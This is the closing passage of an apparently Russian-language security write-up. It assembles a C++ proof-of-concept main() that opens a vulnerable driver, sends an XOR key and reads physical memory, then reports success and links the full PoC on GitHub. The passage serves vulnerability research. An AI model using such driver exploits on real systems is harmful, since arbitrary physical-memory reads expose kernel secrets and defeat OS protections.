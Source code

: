 Соединяем все вместе и получаем:

```c
int main()
{
    memset(xor_key, 0, sizeof(xor_key));

    if (!open_device()) 
    {
        return 1;
    }

    if (!send_xor_key())
    {
        return 1;
    }

    ULONG64 read = read_mem(0x40);

    std::cout << std::hex << read << std::endl;

    CloseHandle(hDevice);
    return 0;
}
```

#### Время на тест

{{< img src="21.jpg">}}
{{< img src="22.jpg">}}

Ура! Все работает! Мы получили с вами уязвимость произвольного чтения физической памяти.

Спасибо за прочтение, надеюсь вы узнали что-то новое для себя.

Весь код PoC есть на [github](https://github.com/3a1/Argus-PoC).